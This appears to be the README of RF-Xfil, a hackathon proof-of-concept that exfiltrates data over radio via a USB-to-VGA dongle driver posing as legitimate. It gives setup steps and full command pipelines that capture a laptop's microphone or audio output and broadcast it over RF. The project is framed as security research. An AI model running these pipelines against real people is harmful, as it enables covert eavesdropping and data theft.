 # RF-Xfil | Prototype Toolkit for Data Exfiltration over Radio Frequencies
## Started by Jie Feng, Ragul & Andre Dec 2018 @ HackSmith v2.0

![HackSmith v2 Award](misc/HackSmith_Award.jpg)

Imagine your dongle (of which many modern devices depend on) is exfiltrating information over RF! Thats exactly the Proof-Of-Concept we managed to showcase at HackSmith v2 over the 8-9 Dec 2018 weekend.

By writing "simulated malicious" code masquerading as the device driver for a inexpensive off the shelf USB-to-VGA dongle based off the infamous Fresco Logic FL2000 chipset, we were able to exfiltrate not only the audio from the victim laptop's microphone and SSTV of a screenshot, but also built modulation (inspired by fax and work done by romanz/amodem) robust enough to transfer screenshots and any arbitary files.

Demodulation code to be used with generic inexpensive RTL-SDRs is also in here.

We feel that more people should take an active interest in & do research into electronics & RF.

Lets see what other overpowered embedded devices can be used to do mindblowing things.

### Platforms
Supported platforms: Linux
osmo-fl2k works best with Linux

### New Tools
fl2k_iq: a tool that upconverters raw baseband I/Q to a frequency. Accepts signed 16 bit I/Q signals
amodem-modified: amodem modified to use fl2k_fm

### Dependencies
osmo-fl2k
CSDR
Liquid DSP


### Installation

1. Install Dependencies required
Example: ubuntu
```
sudo apt install build-essential cmake pkg-config libfftw3-dev libusb-1.0-0-dev automake
```
2. run autoinstall.sh
```
./autoinstall.sh
```

### Using RF-Xfil main features
To find your sound input device:

#### Microphone
```
pacmd list-sources | grep alsa_input
        name: <alsa_input.pci-0000_00_1f.3.analog-stereo>
```

#### Monitor input
```
pacmd list-sources | grep name | grep monitor
        name: <alsa_output.pci-0000_00_1f.3.analog-stereo.monitor>
```

Transmitting audio:
Replace the '-d' with the one appriopriate to your purposes
AM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr add_dcoffset_cc | csdr convert_f_i16 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```
SSB(USB):
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr bandpass_fir_fft_cc 0 0.1 0.01 | csdr gain_ff 2 | csdr shift_addition_cc 0.2 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```

WBFM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | pv -B 256k | fl2k_fm - -s 130e6 -c 40e6 -i 44100
```

Additionally, you can use your own data modulator/demodulator such as (AudioNetwork)[https://github.com/robertrypula/AudioNetwork] or (amodem)[https://github.com/romanz/amodem]

### Limitations

fl2k_iq does not work very well (sometimes not at all) when there isn't a constant carrier (like SSB modes). Hypothesis is that the chip itself switches power modes(?) which causes delays.

fl2k_iq creates spurious signals at frequency +/- sample_frequency
### Languages
English only (translations welcome)
